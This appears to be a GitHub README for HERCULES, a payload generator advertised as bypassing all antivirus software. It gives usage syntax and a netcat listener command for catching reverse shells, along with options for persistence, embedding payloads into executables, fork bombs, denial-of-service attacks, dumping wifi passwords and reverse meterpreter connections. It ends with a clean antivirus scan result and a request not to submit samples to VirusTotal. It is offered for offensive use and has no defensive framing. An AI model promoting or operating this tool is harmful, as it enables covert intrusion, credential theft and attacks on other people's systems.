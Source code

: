 # HERCULES
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)

Example : ./HERCULES 192.168.2.10 4444 -p windows -a x86 -l dynamic

Example Video : https://youtu.be/vYnaZpWxwxY

Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

     ~PERSSISTENCE                     Installs a persistence module

     ~DISTRACT                         Executes a fork bomb bat file for distraction   

     ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

     ~DOS -A "www.targetsite.com"      Starts a denial of service atack

     ~WIFI-LIST 					   Dumps all wifi history data with passwords

     ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence may atract anti virus softwares !
- Please don't disribute any samples to Virus Total !

# AV AWARENESS

File Name: Payload.exe
File Size: 7.57 MB
Scan Date: 11:06:04 | 06/08/2016
Detected by: 0/35

MD5: 752e10459e0624beb6747ae85f8f9261
SHA256: 491bab16a4701102f201800322cf06bb95229dec012b5703e33be77d74b672a6
Verified By NoDistribute: http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

- A-Squared:  Clean
- Ad-Aware:  Clean
- Avast:  Clean
- AVG Free:  Clean
- Avira:  Clean
- BitDefender:  Clean
- BullGuard:  Clean
- Clam Antivirus:  Clean
- Comodo Internet Security:  Clean
- Dr.Web:  Clean
- ESET NOD32:  Clean
- eTrust-Vet:  Clean
- F-PROT Antivirus:  Clean
- F-Secure Internet Security:  Clean
- FortiClient:  Clean
- G Data:  Clean
- IKARUS Security:  Clean
- K7 Ultimate:  Clean
- Kaspersky Antivirus:  Clean
- McAfee:  Clean
- MS Security Essentials:  Clean
- NANO Antivirus:  Clean
- Norman:  Clean
- Norton Antivirus:  Clean
- Panda CommandLine:  Clean
- Panda Security:  Clean
- Quick Heal Antivirus:  Clean
- Solo Antivirus:  Clean
- Sophos:  Clean
- SUPERAntiSpyware:  Clean
-Trend Micro Internet Security:  Clean
- Twister Antivirus:  Clean
- VBA32 Antivirus:  Clean
- VIPRE:  Clean
- Zoner AntiVirus:  Clean
				


